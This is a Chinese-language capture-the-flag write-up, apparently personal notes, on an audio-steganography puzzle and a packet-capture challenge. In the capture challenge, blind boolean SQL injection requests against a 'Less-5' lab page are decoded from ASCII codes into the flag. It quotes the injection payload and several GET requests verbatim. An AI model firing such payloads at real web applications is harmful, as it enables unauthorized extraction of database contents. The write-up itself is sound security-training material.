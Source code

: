### # 1x02 音频隐写

- 题目：[去吧！追寻自由的电波](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E5%8E%BB%E5%90%A7%EF%BC%81%E8%BF%BD%E5%AF%BB%E8%87%AA%E7%94%B1%E7%9A%84%E7%94%B5%E6%B3%A2/src/radio.mp3)
    - [题解](https://github.com/USTC-Hackergame/hackergame2021-writeups/tree/master/official/%E5%8E%BB%E5%90%A7%EF%BC%81%E8%BF%BD%E5%AF%BB%E8%87%AA%E7%94%B1%E7%9A%84%E7%94%B5%E6%B3%A2)；
    - 使用Audacity减慢播放速度即可。

## 流量分析（.pacp）题

### # 1x03 SQL注入攻击

- [timu.pcapng](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CTF/MISC/timu.pcapng)

打开显示为注入payload`id=1' and ascii(substr((select flag from t),1,1))=33--`，是使用二分法判断SQL语句执行对应的Ascii字符是否相等：

![hup13CgkwsoTVRa.png](https://image.yjs2635.xyz/images/2022/02/20/hup13CgkwsoTVRa.png)

所以直接来看一下返回包的页面是否有不同的地方：`Analyze->Follow->TCP/HTTP Stream`

![mgI9SUcGn4OLPTu.png](https://image.yjs2635.xyz/images/2022/02/20/mgI9SUcGn4OLPTu.png)

两边不同显示：左边为错误Ascii，右边为正确的Ascii，按照顺序`(substr((select flag from t),1,1)->(n,1)`得到：

```bash
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),1,1))=102--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),2,1))=108--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),3,1))=97--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),4,1))=103--  HTTP/1.1
···
```

查一下[Ascii字母表](https://blog.csdn.net/Lucky_bo/article/details/52247939)

得到flag：

```bash
102 108 97 103 123 119 49 114 101 115 104 65 82 75 95 101 122 95 49 115 110 116 105 116 125

#-> flag{w1reshARK_ez_1snt}
```

### # 1x04 [...]usb流量分析

[...]

### # 1x05 取证/攻击行为

- 无题目描述；给出的是一份流量文件：[backdoor.pcapng](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CTF/MISC/backdoor/backdoor.pcapng)

打开一看映入眼帘的是一系列SQL注入的payload：
